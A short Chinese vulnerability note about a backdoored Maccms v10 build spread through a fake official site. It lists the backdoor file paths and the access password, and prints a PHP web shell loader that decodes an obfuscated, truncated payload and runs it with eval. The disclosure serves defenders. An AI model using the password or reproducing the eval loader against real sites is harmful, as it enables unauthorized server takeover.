 ```yaml
---
title: "Maccms后门"
id: zhfly3009
---
```


# Maccms后门

## 一、漏洞简介

有人假冒苹果cms官网，发布带有后门的程序。

## 二、漏洞影响

version v10

## 三、复现过程

### 后门文件路径

maccms10\extend\upyun\src\Upyun\Api\Format.php

maccms10\extend\Qcloud\Sms\Sms.php

密码 WorldFilledWithLove

### 后门样本

```
<?php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "0d41c75e2ab34a3740834cdd7e066d90";
function s(){
 $str = "66756r6374696s6r207374…………"; //大马
 $str = str_rot13($str);
 m($str);
}
function m($str){
 global $password;
 $jj = '';
 eval($jj.pack('H*',$str).$jj);
}
s();
?> 
```

![image](../img/f9b30db2ccb5cc1319de94898c7ad3ab.png)